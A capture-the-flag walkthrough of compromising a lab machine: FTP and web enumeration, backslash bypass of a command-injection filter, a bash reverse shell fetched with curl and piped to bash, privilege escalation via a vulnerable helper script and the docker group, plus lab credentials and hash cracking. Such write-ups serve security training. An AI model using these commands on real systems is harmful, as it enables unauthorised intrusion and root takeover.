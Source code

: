 # Capture The Flag Challenge 2

## Description

Capture The Flag.

## Sources

```
Explore and discover possible vulnerabilities of the machine to gain access and capture the Flags.
```

## Exploit

Begin by enumerating the IP. 

```
sudo nmap -sC -sV -A -p- <IP>
```

Using `nmap` we discover that port 21, 22 and 80 are opened, so let’s enumerate those ports.

```
ftp <IP>
```

Using the `anonymous` user and `blank` password we gain access to the ftp server. Inside it, we discover a file named note.txt.

Download the file to your machine, and we find that two users namely Anurodh and Apaar are talking about filtering of strings that are being put in a command. Meaning that maybe some of our commands maybe filtered by the web application, and we might get false negatives.

```
get note.txt
```

Next we enumerate HTTP. By accessing the webpage and exploring, we discover that robots.txt doesn't exist. 

So we'll be using `gobuster` to enumerate the website.
 
```
sudo gobuster dir -u http://<website_ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We discover a few directories, but the one that pops out the most is the `/secret` one.

Inside it, we find an index.php file that can execute commands.

Trying to execute a ls to get a directory listing, we get an error message.
If we remember the note we got from ftp, it says that there was filtering  around some words in the commands.
 
The simplest way to bypass any filtering in command injection is by using backslashes.

So long as we're not escaping any special characters, then the word will still be interpreted the same way by bash.

We try to execute ls again but this time,  we put a backlash between l and s.

```
l\s  -la
```

We have successfully bypassed the filtering.
Next we decide to take a look at the PHP file running the commands and see what other words were blacklisted by the script.

```
c\at index.php
```

And looking at the source we can see the words that are filtered by the script: `nc, python, bash,php,perl,rm,cat,head,tail,python3,more,less,sh,ls`.

These words are mostly used to get reverse shells on any system. But we now have a way to bypass those restriction. 

Next let’s get a shell on the server.

We create a bash reverse shell on script, containing the following command.

+ shell.sh

```
bash -c "bash -i >& /dev/tcp/<host_ip>/9001 0>&1"
```

Next we start an HTTP web server, and then a netcat listener.

```
python3 -m http.server 8000 --bind <host_ip>
```

```
nc -nvlp 9001
```

Then we download the script using curl and piped its contents over to bash using the command below.

```
curl <host_ip>:8000/shell.sh | ba\sh
```

Going back to my netcat listener, we have a shell.


Next we can upgrade the shell to get a full tty shell on the server.

On the server run:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then CTRL + Z, and execute the following comand on host machine terminal.

```
stty raw -echo;fg
```

Press enter, and execute the following commands.

```
stty rows 29 columns 126

export TERM=screen
```

And done, we have a stabel shell.

By exploring we discover that there is a port exposed only to localhost, and that we have access to home directory of appar user.

```
ss -tlpn
```

Inside the home directory of appar, there is a script called .helpline.sh, that can be executed without knowing the user’s passwords.

Looking at the source code of the script, we discover that it’s vulnerable to command injection.

The user’s supplied input is directly passed to a bash instance, and we could use this to our advantage and execute a bash shell to get a bash instance as the user Apaar.

```
sudo -u apaar /home/apaar/.helpline.sh
```
As input we type:

```
/bin/bash
```

The we execute `python3 -c 'import pty; pty.spawn("/bin/bash")'` again.

We have successfully escalated our privileges from the Apache user (www-data).

Next we could drop a SSH key on the server and use SSH to do a reverse tunneling of the port we want to access back to on the server.

Create a SSH key pair using `ssh-keygen` binary from Linux, and copy the public key to the authorized_keys file on the server apaar’s .ssh folder.

Then we use the argument -L in SSH to perform a reverse port forwarding.

```
ssh -L 9001:127.0.0.1:9001 -i apaar apaar@<IP>
```

Next using a browser, we access `127.0.0.1:9001` and discover a customer portal.

By exploring some more, we discover that the directory hosting the second web server was in `/var/www/files/`.

Looking at the account.php we can see that the script performs raw SQL queries without doing any proper filtering or sanitization on user input, and this leads to SQL Injection vulnerability on the website.

Looking at the index.php we get the root’s password to MySQL server.

```
"root","!@m+her00+@db"
```

With these credentials we can access MYSQL through the terminal.

```
mysql -u root -p
```

Now that we're inside, let's explore a bit.

```
show databases;

use webportal;

show tables;

select * from users;
```

Now that we have the passwords hashes, we can use an online md5 decoder to decipher them.

```
Aurick  masterpassword
cullapaar dontaskdonttell
```

After that we can login into the website.

Looking at the hackers.php file we get a hint and a picture.

Downloaded the image to the host machine, and using `steghide` we are able to identify an embedded file.

```
steghide info ./hacker-with-laptop_23-2147985341.jpg
```

Using the following command we can extract the embedded file.

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

With `john (the ripper)` we can crack the password `pass1word` and extract its contents.

```
sudo zip2john ./backup.zip > hash 
sudo john hash --fork=4 -w=/path/to/rockyou.txt
```

Looking at the source code we have a base64 encoded credentials and a username Anurodh.

```
!d0ntKn0wmYp@ssw0rd
```

We decrypt the password and escalate our privileges.

```
su - anurodh
```

Running an id command we see that we are in the docker group

Using the following one liner below from `GTFOBins` we get a root shell.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

bash
```

AND WE ARE ROOT!!